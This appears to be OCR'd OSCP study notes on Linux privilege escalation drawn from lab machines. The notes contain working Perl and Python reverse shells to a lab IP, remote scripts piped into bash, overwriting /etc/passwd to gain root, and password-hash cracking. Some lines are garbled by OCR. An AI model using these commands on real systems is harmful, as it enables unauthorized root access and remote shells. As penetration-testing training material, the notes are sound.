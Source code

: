 ```yaml
---
title: "OSCP: Linux Privilege Escalation"
last_modified_at: 2019-11-01T16:20:02-05:00
categories:
  - Cyber Security
tags:
  - OSCP
  - Linux
  - Privilege Escalation
---
```


privesc_linux
UPGRADE SHELL python -c ‘import pty; pty.spawn("bin/bash")’
ctrl-Z
stty raw -echo
fg
Enumerate and run this:
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null
”_ If you don’t see a compiler such as GCC, you know it’s probably not going to be a kernel exploit. So enumerate and use
LinEnum.sh or Linuxprivescchecker.py. I found on one of my 20 point boxes it only perl and wget, so I was looking for priv esc
related to perl. The other 20 pointer had GCC, so I googled a linux exploit, 2 minutes later I am root.
BY HAND 1. sudo -l # view users rights has to be tried first for all linux privesc
2. rw on /etc/passwd → echo root::0:0:root:/root:/bin/bash > /etc/passwd → su
3. bash_history
4. find / -perm -4000 2>/dev/null # SUID files - detect by date?
5. Do all cronjobs look normal and do you have write access to any??
6. ps aux | grep root == john mysql -u root
7. If webserver poke around database
8. Look at original nmap scan for other shite running (nmap localhost)
sudo -u anotheruser command run sommand as another user
sudo -u scriptmanager bash -i #run shell as user scriptmanager
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget curl tftp ftp 2>/dev/null
DOWNLOAD ALL LINUX ENUM FILES TO VICTIM cd /opt/linux_privesc
python -m SimpleHTTPServer
wget -r 10.10.14.7:8000
curl 10.10.14.7/LinEnum | bash # pipe into bash
or save to victim
linEnum.sh has a -t flag for thorough!!
make a thorough linEnum script bu putting thorough = 1 at top of script
KERNEL EXPLOITS i686 = 32bit
x86_64 = 64bit
when u pop a box what usernames and info did you get on the way in that may help
Get Linux version from Apache version etc... Launchpad?
linux exploit suggester
the exploit will give linux version + exploitable file
check your own file version
eg
ldd --version
cat /etc/lsb-release
Can ignore warnings on gcc compiles
LINUX VERSIONS
ubuntu 2.2.22 apache → launchpad link → prcise
Google ubuntu releases wiki.ubuntu.com/Releases → End of Lifes?
nmap --script vuln -oA nmap/vulns 10.10.10.79
Freebsd uses csh shell
LINUX PASSWORDS unshadow passwd.txt shadow.txt > unshadowed.txt
john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
42/67
WRITABLE /etc/passwd (Bank) Create encrypted password and place in passwd file
openssl passwd --help
openssl passwd dan
dfVJQnZOraiAw
openssl passwd -1 dan # specifies md5
vi /etc/passwd
replace
root:x:0:0:root:/root:/bin/bash
with
root:dfVJQnZOraiAw:0:0:root:/root:/bin/bash
su root
Password: dan
SUID (Bank) find / -perm -4000 2>/dev/null
/var/htb/bin/emergency
$ ls -la /var/htb/bin/emergency
-rwsr-xr-x 1 root root 112204 Jun 14 2017 /var/htb/bin/emergency
Just run the binary and gain root
/var/htb/bin/emergency
That was simple (will often need to edit binary)
ESCALATE VIA MYSQL ROOT credentials → go into mysql as root then drop ito a shell to pwn box
mysql -u root -p
Enter password: !@#S3cur3P4ssw0rd!@#
Create shell in mysql
\! /bin/sh
DIDNT ESCALATE
sudo -l sudo -l
User shelly may run the following commands on Shocker:
(root) NOPASSWD: /usr/bin/perl
Get the pentest monkey perl shell
Important to add sudo before
sudo /usr/bin/perl -e 'use Socket;$i="10.10.14.7";
$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i))))
{open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
A cronjob (of sorts) test.py owned by us (we are scriptmanager). But note the output (test.txt) is root.
Goody gumdrops.
Put in a new test.py.
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.7",
4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
Open listener on KALI: nc -nlvp 4444
Serve it it to victim's scripts folder
Let the cronjob run → shell
43/67
RESTRICTED BASH To view what we CAN run
monitor@waldo:~$ echo $PATH
/home/monitor/bin:/home/monitor/app-dev:/home/monitor/app-dev/v0.1
ls /home/monitor/bin
ls most red rnano
ls -la /home/monitor/app-dev
total 2236
drwxrwx--- 3 app-dev monitor 4096 May 3 2018 .
drwxr-x--- 5 root monitor 4096 Jul 24 2018 ..
-rwxrwx--- 1 app-dev monitor 13704 Jul 24 2018 logMonitor
rwx-able if we are in monitor group?
rnano /etc/group
monitor:x:1001: ← yes
We will copy /bin/bash and paste it over logMonitor
red /bin/bash ← restricted edit
1099016
w app-dev/logMonitor <- write to logMonitorcd ~
1099016
q
logMonitor
tmp.tUiSCVyRTR: dircolors: command not found
We now have /bin/bash BUT we can still only do whats in our path. BUT... we can echo a normal path (from kali) and set it on
Waldo
ON KALI
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/go/bin:/root/go-workspace/bin
ON WALDO
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/go/bin:/root/go-workspace/bin
GET LINENUM WITH CURL
root@kali:/opt/linux_privesc# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
curl 10.10.14.11:8000/linEnumThorough.sh | bash
[+] Files with POSIX capabilities set:
/usr/bin/tac = cap_dac_read_search+ei
/home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei
[+] Capabilities associated with the current user:
cap_dac_read_search ←
[+] Permissions of files with the same capabilities associated with the current user:
-rwxr-xr-x 1 root root 39752 Feb 22 2017 /usr/bin/tac
man capabilities
CAP_DAC_READ_SEARCH
* Bypass file read permission checks and directory read and execute permission checks;